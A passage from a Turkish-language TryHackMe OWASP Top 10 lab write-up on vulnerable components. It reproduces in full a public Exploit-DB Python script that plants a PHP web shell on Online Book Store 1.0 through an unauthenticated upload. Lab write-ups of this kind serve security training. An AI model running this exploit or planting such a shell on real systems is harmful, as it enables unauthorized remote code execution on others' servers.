 Ayrıca şunu da belirtelim: Her zaman bu kadar kolay olmayabilir. Bazen, bu örnekte olduğu gibi sadece bir sürüm numarası bulursunuz. Ancak diğer durumlarda HTML kaynak kodunu incelemeniz veya exploit betiği için tahminde bulunmanız gerekebilir. Yine de, eğer bilinen bir güvenlik açığıysa, uygulamanın hangi sürümde çalıştığını keşfetmenin genellikle bir yolu vardır.

İşte bu kadar! OWASP Top 10’un bu maddesinin en güzel yanı, işin büyük kısmının zaten yapılmış olması. Bizim yapmamız gereken tek şey biraz temel araştırma; zaten bir sızma testçisi olarak bunu sıkça yapıyorsunuz. Değil mi?

## Görev 15: Güvenlik Açığı Olan ve Güncellenmemiş Bileşenler - Laboratuvar

### Bayrak Yakalamaca

- TryHackMe saçma sapan bir maddeleme kafasına sahip olduğu için bu başlık altında makinayı deneyeceğiz. 84 portuna gidelim:

  ![](https://i.ibb.co/Dgpzx1VF/15-1.png)

- Online kitap satış noktası? gibi bir şey yapmaya çabalamış bu arkadaş. Ancak acemi görünüyor çünkü satın? aldığı kodu düzenlemeden direkt yüklemiş. Sitenin başlığı hala CSE Bookstore olarak duruyor. Webde açık aramaya çabalayalım:

  ![](https://i.ibb.co/N6hf9jS9/15-2.png)

- Bir exploit bulduk. [Online Book Store 1.0 - Unauthenticated Remote Code Execution](https://www.exploit-db.com/exploits/47887) 

  ```python
  # Exploit Title: Online Book Store 1.0 - Unauthenticated Remote Code Execution
  # Google Dork: N/A
  # Date: 2020-01-07
  # Exploit Author: Tib3rius
  # Vendor Homepage: https://projectworlds.in/free-projects/php-projects/online-book-store-project-in-php/
  # Software Link: https://github.com/projectworlds32/online-book-store-project-in-php/archive/master.zip
  # Version: 1.0
  # Tested on: Ubuntu 16.04
  # CVE: N/A

  import argparse
  import random
  import requests
  import string
  import sys

  parser = argparse.ArgumentParser()
  parser.add_argument('url', action='store', help='The URL of the target.')
  args = parser.parse_args()

  url = args.url.rstrip('/')
  random_file = ''.join(random.choice(string.ascii_letters + string.digits) for i in range(10))

  payload = '<?php echo shell_exec($_GET[\'cmd\']); ?>'

  file = {'image': (random_file + '.php', payload, 'text/php')}
  print('> Attempting to upload PHP web shell...')
  r = requests.post(url + '/admin_add.php', files=file, data={'add':'1'}, verify=False)
  print('> Verifying shell upload...')
  r = requests.get(url + '/bootstrap/img/' + random_file + '.php', params={'cmd':'echo ' + random_file}, verify=False)

  if random_file in r.text:
      print('> Web shell uploaded to ' + url + '/bootstrap/img/' + random_file + '.php')
  ```